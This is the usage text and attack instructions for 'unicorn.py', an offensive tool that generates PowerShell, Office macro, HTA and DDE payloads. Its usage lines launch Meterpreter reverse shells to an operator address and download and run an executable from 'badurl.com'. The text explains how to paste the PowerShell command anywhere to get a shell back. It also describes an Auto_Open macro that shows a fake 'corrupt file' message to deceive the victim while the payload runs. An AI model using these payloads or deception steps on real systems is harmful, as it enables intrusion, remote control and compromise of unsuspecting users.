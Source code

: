 ```
Twitter: @TrustedSec, @HackingDave
Credits: Matthew Graeber, Justin Elze, Chris Gates

Happy Magic Unicorns.

Usage: python unicorn.py payload reverse_ipaddr port <optional hta or macro, crt>
PS Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443
PS Down/Exec: python unicorn.py windows/download_exec url=http://badurl.com/payload.exe
Macro Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 macro
Macro Example CS: python unicorn.py <cobalt_strike_file.cs> cs macro
Macro Example Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode macro
HTA Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 hta
HTA Example CS: python unicorn.py <cobalt_strike_file.cs> cs hta
HTA Example Shellcode: python unicorn.py <path_to_shellcode.txt>: shellcode hta
DDE Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 dde
CRT Example: python unicorn.py <path_to_payload/exe_encode> crt
Custom PS1 Example: python unicorn.py <path to ps1 file>
Custom PS1 Example: python unicorn.py <path to ps1 file> macro 500
Cobalt Strike Example: python unicorn.py <cobalt_strike_file.cs> cs (export CS in C# format)
Custom Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode (formatted 0x00)
Help Menu: python unicorn.py --help
```

###                -----POWERSHELL ATTACK INSTRUCTIONS----

Everything is now generated in two files, powershell_attack.txt and unicorn.rc. The text file contains  all of the code needed in order to inject the powershell attack into memory. Note you will need a place that supports remote command injection of some sort. Often times this could be through an excel/word  doc or through psexec_commands inside of Metasploit, SQLi, etc.. There are so many implications and  scenarios to where you can use this attack at. Simply paste the powershell_attack.txt command in any command prompt window or where you have the ability to call the powershell executable and it will give a shell back to you. This attack also supports windows/download_exec for a payload method instead of just Meterpreter payloads. When using the download and exec, simply put python unicorn.py windows/download_exec url=https://www.thisisnotarealsite.com/payload.exe and the powershell code will download the payload and execute.

Note that you will need to have a listener enabled in order to capture the attack.

###                -----MACRO ATTACK INSTRUCTIONS----

For the macro attack, you will need to go to File, Properties, Ribbons, and select Developer. Once you do
that, you will have a developer tab. Create a new macro, call it Auto_Open and paste the generated code
into that. This will automatically run. Note that a message will prompt to the user saying that the file
is corrupt and automatically close the excel document. THIS IS NORMAL BEHAVIOR! This is  tricking the
victim to thinking the excel document is corrupted. You should get a shell through powershell injection
after that.
